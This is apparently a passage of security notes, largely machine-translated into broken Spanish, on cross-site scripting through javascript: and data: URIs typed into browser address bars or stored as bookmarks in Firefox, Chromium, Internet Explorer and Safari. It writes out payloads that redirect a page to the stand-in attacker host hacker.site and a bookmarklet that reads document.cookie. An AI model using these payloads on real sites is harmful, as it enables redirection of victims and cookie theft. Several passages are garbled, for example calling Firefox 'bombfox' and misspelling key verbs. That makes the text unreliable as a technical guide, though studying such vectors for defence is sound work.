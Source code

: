### Based on Firefox

* Mozilla Firefox desautora el acceso al contexto de seguridad de la página actualmente cargada si ese acceso es intentado por URI javascript o de cheque de datos introducido directamente en la barra de localización de los navegadores.
* De todos modos, es posible ejecutar redir direcciones u otras operaciones maliciosas con ambos esquemas.

Redirir en hacker.site con \*\* esquemajavascript\*\*:

```js
javascript:{this.window='<script>document.location="http://hacker.site"</script>'};
```

Redirdirecta a hacker.site con **data** esquema:

```js
data:text/html,<script>document.location="http://hacker.site"</script>
```

### Access objects in the DOM via bookmarks

in imágenes:

```bash
1. Create a bookmark: Alert cookies > javascript:alert(document.cookie)
2. Click
3. Browser execute JavaScript
# this bookmarks technique is also valid in browsers like Chromium, Internet Explorer and Safari
```

### Internet Explorer

* el esquema de datos es limitado, pero javascript está disponible

El único límite es similar a los navegadores Chormium, despojará a cualquier líder **javascript:** del texto pedeado antes de insertarse en la barra de búsqueda:

```js
javascript:document.location='http://hacker.site'
```

### Safari

* Denies javascript del campo de búsqueda inteligente, pero se permite dentro **bookmarks**
* The **data scheme** is allowed too

### NoScript Security Suite

* Su extensión de bombfox, añade una capa de seguridad adicional que bloquea todos los URI de javascript y datos
* En contraste, al igual que con otros navegadores, \*\* no bloquea\*\* esquemas de javascript y URI de datos dentro de **Bookmarks**.

## Exotic XSS Vectors

